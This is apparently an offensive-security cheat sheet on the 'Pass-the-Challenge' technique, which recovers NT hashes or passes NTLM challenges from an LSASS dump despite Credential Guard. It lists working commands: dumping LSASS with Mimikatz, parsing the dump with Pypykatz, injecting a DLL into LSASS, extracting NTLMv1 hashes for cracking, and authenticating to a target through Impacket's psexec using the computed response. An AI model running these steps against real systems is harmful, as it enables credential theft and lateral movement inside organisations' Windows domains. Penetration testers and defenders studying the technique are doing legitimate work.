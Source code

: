 # Pass-the-Challenge

Link: https://github.com/ly4k/PassTheChallenge

This technique permits to retrieve the NT hashes from a LSASS dump when Credential Guard is in place. This modified version of Pypykatz must be used to parse the LDAP dump.

Link: https://github.com/ly4k/Pypykatz

## NTLMv1

##### Dump the LSASS process with Mimikatz for example

##### Parse the dump with Pypykatz

    python3 -m pypykatz lsa minidump lsass.DMP -p msv

##### Inject the SecurityPackage.dll into the LSASS process

    ./PassTheChallenge.exe inject ./SecurityPackage.dll

##### Retrieve the NTLMv1 hash

    ./PassTheChallenge.exe nthash <context handle>:<proxy info> <encrypted blob>

##### Crack the NTLMv1 hash with hashcat to retrieve the NT hash

## NTLMv2

Link: https://github.com/ly4k/Impacket

In case where only NTLMv2 is allowed, it will not be possible to crack the NTLM hash, but it is possible to pass the challenge and provide the response. It is possible to perform this attack with this modified version of Impacket. First, as above:

##### Dump the LSASS process with Mimikatz for example
##### Parse the dump with Pypykatz

    python3 -m pypykatz lsa minidump lsass.DMP -p msv

##### Inject the SecurityPackage.dll into the LSASS process

    ./PassTheChallenge.exe inject ./SecurityPackage.dll

Then, authenticate with an Impacket tool specifying CHALLENGE as password, provide the printed challenge to PassTheChallenge, and send the computed response to Impacket:

##### Authenticate with CHALLENGE as password

    psexec.py 'domain.local/user1:CHALLENGE@target.domain.local'

##### Copy paste the challenge to PassTheChallenge.exe and retrieve the response

    ./PassTheChallenge.exe challenge <context handle>:<proxy info> <encrypted blob> <challenge>

##### Paste the response to the Impacket prompt (possible that multiple response are needed)
